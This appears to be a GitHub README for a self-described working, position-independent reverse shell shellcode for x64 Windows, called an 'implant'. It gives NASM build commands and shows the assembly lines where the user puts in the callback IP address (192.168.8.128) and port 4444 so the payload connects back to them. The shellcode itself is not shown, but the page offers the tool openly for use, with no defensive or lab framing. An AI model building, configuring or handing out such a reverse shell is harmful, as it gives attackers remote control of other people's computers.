 A **position-independent** reverse shell shellcode i put together for x64 systems. It works (tested on Windows 10), it's definitely a rough draft but expect cleaner code/docs soon.
---

## How to Build

**You’ll need:**
- A windows pc
- NASM installed
---

### Makefile Commands:
- `make all`: Compiles the source into a binary shellcode (`main.bin`).
- `make clean`: Deletes the compiled binary.

### Manual Build:
If you don’t want to use `make`, just do this:
```bash
nasm -f bin -g -O0 -o C:\Users\win10\Desktop\pic_implant\bin\main.bin src\main.asm
```

**Steps:**
1. **Edit `src/main.asm`**  
   Find these lines and replace with your IP/port:
   ```asm
       db "192.168.8.128", 0
       mov word [rsp+2], 0x5C11       ; ← 4444 (change this too)
   ```
